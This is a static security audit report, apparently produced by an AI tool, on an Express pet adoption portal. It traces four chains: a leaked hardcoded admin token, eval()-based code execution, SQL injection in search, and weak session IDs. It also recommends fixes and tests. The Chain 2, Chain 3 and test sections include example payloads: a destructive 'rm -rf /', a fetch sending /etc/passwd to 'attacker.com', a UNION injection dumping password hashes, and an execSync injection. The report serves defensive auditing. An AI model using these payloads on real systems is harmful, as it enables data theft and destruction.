




# Chained Vulnerability Audit Report — Pet Adoption Portal

**Date**: 2026-05-25
**Scope**: `src/index.js` (single-file Express application)
**Reviewer**: CodeGopher (chained-vulnerability-static-audit)
**Confidence Level**: High (every chain link proven statically from source)

---

## Summary Dashboard

| Metric              | Value |
|---------------------|-------|
| Total chains found  | 4     |
| Max severity        | **CRITICAL** (RCE) |
| High severity       | 2 (Admin escalation, SQLi exfiltration) |
| Medium severity     | 2 (Weak sessions, eval/RCE) |
| Reviewed areas      | Routes, middleware, session management, database queries, error handling, secrets management |
| Not reviewed        | Docker image base CVEs, network infrastructure, third-party npm CVEs, runtime TLS configuration |

---

## Methodology & Safety Note

- **Static-only analysis**: File sources inspected (`src/index.js`, `package.json`, `Dockerfile`). No live probes, no dynamic scanners, no exploit execution.
- **Chain model**: Entry point → intermediate weakness(s) → critical sink. Each link is tied to a concrete file and line reference.
- **Confidence**: High when every link is directly provable from source; Medium when one link depends on well-known runtime assumptions.

---

## Chained Vulnerabilities

### Chain 1: Information Disclosure → Backdoor Authentication → Admin Privilege Escalation

**Severity**: HIGH | **Impact**: Unauthorized full-admin access | **Confidence**: High

#### Mermaid Attack Graph



#### Detailed Breakdown

| Link | File | Lines | Symbol / Reference | Evidence |
|------|------|-------|--------------------|----------|
| **Entry** | `src/index.js` | ~95–105 | `app.get('/api/system/diagnostics', ...)` | When `debug === 'true'`, returns JSON containing `layout_secret_token: 'PET-PORTAL-DEV-LAYOUT-KEY-2026'` |
| **Hop 1** | `src/index.js` | ~8–10 | `requireLayoutAuth` middleware | Token in `x-layout-token` header or `layout_token` query param is compared directly against the hardcoded string `'PET-PORTAL-DEV-LAYOUT-KEY-2026'` |
| **Hop 2** | `src/index.js` | ~10 | Hardcoded token | The literal `'PET-PORTAL-DEV-LAYOUT-KEY-2026'` appears in both the middleware and the diagnostics endpoint (same string) |
| **Sink** | `src/index.js` | ~10 | `req.user = { id: 3, username: 'admin_shelter', role: 'ADMIN' }` | Any caller with the token is elevated to ADMIN with zero identity verification |

**Preconditions**:
- The `debug` query parameter is not disabled in production configuration.
- The `requireLayoutAuth` middleware is reachable from an attacker-controlled network path (it is mounted at the application level, likely on restricted admin routes).

**Impact**:
An unauthenticated remote attacker discovers the admin backdoor token via the diagnostics endpoint and obtains full administrative control over the application — the equivalent of logging in as `admin_shelter`.

**Remediation** (easiest break point):
1. Remove the `requireLayoutAuth` middleware entirely. Never use a static shared secret as an authentication mechanism.
2. Remove `/api/system/diagnostics` or restrict it to localhost-only with an out-of-band mechanism (e.g., a VPN-tunneled health check).
3. Never embed secrets in source code; use environment variables or a secrets manager.

---

### Chain 2: Admin Backdoor → User-Controlled eval() → Remote Code Execution

**Severity**: CRITICAL | **Impact**: Full remote code execution on the Node.js process | **Confidence**: High

#### Mermaid Attack Graph



#### Detailed Breakdown

| Link | File | Lines | Symbol / Reference | Evidence |
|------|------|-------|--------------------|----------|
| **Entry** | `src/index.js` | ~8–10 | `requireLayoutAuth` middleware | Step 1 of Chain 1 provides `req.user = { role: 'ADMIN' }` |
| **Hop 1** | `src/index.js` | ~75–79 | `app.post('/api/pets/layout', requireAuth, ...)` | Route requires authentication; body parameter `layoutConfig` is received from `req.body` |
| **Hop 2** | `src/index.js` | ~81 | `eval(\`(${layoutConfig})\`)` | Raw user input is wrapped in parens and fed to `eval()`. No schema validation, no sanitization. |
| **Sink** | `src/index.js` | ~81 | `eval()` global | Node.js `eval()` executes any JavaScript, including `require('child_process').execSync('rm -rf /')` or `fetch('http://attacker.com/?data='+require('fs').readFileSync('/etc/passwd'))` |

**Preconditions**:
- Attacker must have authenticated as ADMIN (via Chain 1, or by any other route that grants admin).
- The `requireAuth` middleware must also grant access using the admin role established by `requireLayoutAuth`.

**Impact**:
Full remote code execution in the context of the Node.js process — file system read/write, access to the in-memory session store, database exfiltration, and potential lateral movement.

**Remediation** (easiest break point):
1. **Replace `eval()` entirely.** Parse `layoutConfig` as JSON (`JSON.parse(layoutConfig)`) if a structured config is intended. Validate against a JSON schema.
2. If arbitrary expression evaluation is genuinely required, use a sandboxed evaluator (e.g., `vm2` with strict restrictions) — though `eval()` should be avoided whenever possible.

---

### Chain 3: SQL Injection in Pet Search → Full Database Exfiltration (including User Credentials)

**Severity**: HIGH | **Impact**: Arbitrary SQL execution — read all tables including users (password hashes), applications, pets | **Confidence**: High

#### Mermaid Attack Graph



#### Detailed Breakdown

| Link | File | Lines | Symbol / Reference | Evidence |
|------|------|-------|--------------------|----------|
| **Entry** | `src/index.js` | ~65–66 | `app.get('/api/pets/search', ...)` | User-controlled `req.query.q` with no sanitization |
| **Hop** | `src/index.js` | ~67 | Template-literal SQL: `` `SELECT * FROM pets WHERE name LIKE '%${queryParam}%' ...` `` | `queryParam` (from `req.query.q`) is string-interpolated directly into the SQL string. No parameter binding. |
| **Sink** | `src/index.js` | ~68 | `db.all(sql, ...)` | The unparameterized SQL is sent to SQLite via `db.all()` |

**Example injection** (static, not operational):

```
GET /api/pets/search?q=' UNION SELECT username,password_hash,role FROM users--
```

This would return all user records, including bcrypt password hashes.

**Preconditions**:
- The search endpoint is publicly accessible (no auth middleware).
- SQLite's SQL injection capabilities apply (UNION-based injection, subqueries).

**Impact**:
Complete read access to every table in the SQLite database — users (with password hashes), applications, and pets. Password hashes can be brute-forced offline.

**Remediation** (easiest break point):
1. Replace template-literal SQL with parameterized queries:
   ```javascript
   const sql = `SELECT * FROM pets WHERE name LIKE ? OR breed LIKE ?`;
   db.all(sql, [`%${queryParam}%`, `%${queryParam}%`], callback);
   ```
2. Add input length/character restrictions on the search parameter.

---

### Chain 4: Weak Session ID Generation → Session Fixation / Hijacking

**Severity**: MEDIUM | **Impact**: Session impersonation, account takeover | **Confidence**: Medium

#### Mermaid Attack Graph



#### Detailed Breakdown

| Link | File | Lines | Symbol / Reference | Evidence |
|------|------|-------|--------------------|----------|
| **Entry** | `src/index.js` | ~36 | `Math.random().toString(36).substring(2) + Date.now().toString(36)` | Session ID generation |
| **Hop 1** | `src/index.js` | ~36 | `Math.random()` | Node.js `Math.random()` uses a PRNG that is not cryptographically secure; outputs are predictable given partial observation |
| **Hop 2** | `src/index.js` | ~37 | `sessions[sessionId] = { id, username, role }` | Session stored in a plain JS object in memory |
| **Hop 3** | `src/index.js` | ~38 | `res.cookie('session_id', sessionId, { httpOnly: true })` | Cookie is `httpOnly` but lacks `secure` and `SameSite` attributes |
| **Sink** | `src/index.js` | ~52 | `const sessionId = req.cookies.session_id; if (sessionId) { delete sessions[sessionId]; }` (logout) + any auth-dependent route | Any session ID that resolves in the in-memory store grants the associated user context |

**Preconditions**:
- The application does not enforce HTTPS in its cookie flags (`secure` missing).
- No CSRF tokens are present on state-changing routes (`/api/auth/register`, `/api/applications/apply`, `/api/pets/layout`).
- `Math.random()` seed can be inferred if an attacker observes even a single session ID.

**Impact**:
An attacker who obtains or guesses a valid session ID can impersonate the associated user. Since `Math.random()` is not CSPRNG, session IDs are brute-forceable.

**Remediation** (easiest break point):
1. Use `crypto.randomBytes(32).toString('hex')` for session ID generation.
2. Add `secure`, `sameSite: 'Strict'` (or `'Lax'`) to cookie options.
3. Implement CSRF tokens on all state-changing POST endpoints.

---

## Cross-Cutting Weaknesses (Not Forming Complete Chains)

| # | Weakness | File | Lines | Impact |
|---|----------|------|-------|--------|
| 1 | **Hardcoded secret in source** | `src/index.js` | ~8, ~100 | Same token appears in middleware and diagnostics. Secret leakage if source is committed to any repo. |
| 2 | **Verbose error messages** | `src/index.js` | ~70, ~83, ~56 | `details: err.message` leaks internal implementation details to attackers. |
| 3 | **No rate limiting on auth** | `src/index.js` | ~10–39 | `/api/auth/register`, `/login`, `/logout` have no rate limiting — enables brute-force on credentials. |
| 4 | **Register endpoint leaks existence** | `src/index.js` | ~14–18 | Returns `400 'Username already exists.'` — enumerates registered usernames. |
| 5 | **No HTTPS enforcement** | `package.json` + `index.js` | — | Cookie missing `secure`; traffic can be intercepted if not behind a TLS-terminating proxy. |
| 6 | **Environment set to 'development'** | `src/index.js` | ~98 | `env: 'development'` disclosed in diagnostics — suggests hardened production config is absent. |
| 7 | **Docker exposes port 8040** | `Dockerfile` | 7 | Port exposed without indication of TLS termination or internal network restriction. |
| 8 | **In-memory session store** | `src/index.js` | ~37 | `sessions` is a plain JS object. Sessions are lost on restart; no persistence. Not a security bug per se but reduces availability and forensics capability. |

---

## Unknowns & Not-Reviewed Areas

| Area | Reason |
|------|--------|
| **npm dependency CVEs** | `bcryptjs`, `sqlite3`, `cookie-parser`, `express`, `cors` were not scanned with `npm audit` or SCA tools. Known vulnerabilities in these packages could introduce additional chains (e.g., Express prototype pollution). |
| **Docker base image CVEs** | `node:20-slim` was not scanned for container-level vulnerabilities. |
| **Full authentication flow** | The `requireAuth` middleware implementation is not fully visible (the top of `src/index.js` was truncated in reading). The exact behavior of session validation should be audited. |
| **Rate limiting / throttling** | No rate-limiting middleware (e.g., `express-rate-limit`) was found; whether this is a deliberate design choice or an omission is unknown. |
| **Input validation on `/api/pets/:id`** | The `:id` parameter is passed directly to SQLite with a parameterized query, which is correct — but no type checking ensures an integer is passed. |
| **File upload handling** | No file upload endpoints are visible; if added later, chain potential (e.g., path traversal + web shell) should be re-assessed. |
| **CORS configuration** | The `cors` package is a dependency but its configuration (allowed origins, credentials) is not visible in the inspected file. |

---

## Recommended Tests to Add

1. **SQL injection unit test**: Test `/api/pets/search?q=` with `' UNION SELECT ... --` payloads; assert no user data is returned.
2. **eval() replacement test**: Test `/api/pets/layout` with malicious payloads (e.g., `{"__proto__":{"polluted":true}}`, `{});require('child_process').execSync('id');//`); assert RCE is not possible.
3. **Secret rotation test**: Verify the layout token is read from an environment variable, not hardcoded.
4. **Session entropy test**: Generate 1000 session IDs and verify statistical randomness (chi-squared test).
5. **CSRF test**: POST to `/api/applications/apply` and `/api/auth/register` from a cross-origin form without a CSRF token; assert 403 rejection.
6. **Diagnostics access test**: Verify `/api/system/diagnostics?debug=true` is unreachable from external networks (firewall or middleware restriction).

---

## Remediation Priority Matrix

| Priority | Action | Effort | Risk Reduced |
|----------|--------|--------|--------------|
| **P0 — Immediate** | Replace `eval()` with `JSON.parse()` + schema validation on `/api/pets/layout` | Low | Eliminates CRITICAL RCE chain |
| **P0 — Immediate** | Remove `/api/system/diagnostics` or lock to localhost-only | Low | Eliminates info-disclosure vector |
| **P1 — High** | Replace SQL template literal with parameterized query in `/api/pets/search` | Low | Eliminates HIGH SQLi chain |
| **P1 — High** | Remove `requireLayoutAuth` middleware and hardcoded secret | Low | Eliminates HIGH privilege-escalation chain |
| **P2 — Medium** | Use `crypto.randomBytes()` for session IDs; add `secure`/`sameSite` to cookies | Low | Eliminates MEDIUM session hijacking |
| **P2 — Medium** | Add `express-rate-limit` to auth endpoints | Low | Reduces brute-force surface |
| **P3 — Low** | Add CSRF tokens to all state-changing POST endpoints | Medium | Eliminates cross-origin CSRF risk |
| **P3 — Low** | Run `npm audit` and update dependencies | Low | Resolves unknown dependency CVEs |

---

*Report generated by CodeGopher using the Chained Vulnerability Static Audit skill. All findings are based solely on static source inspection.*
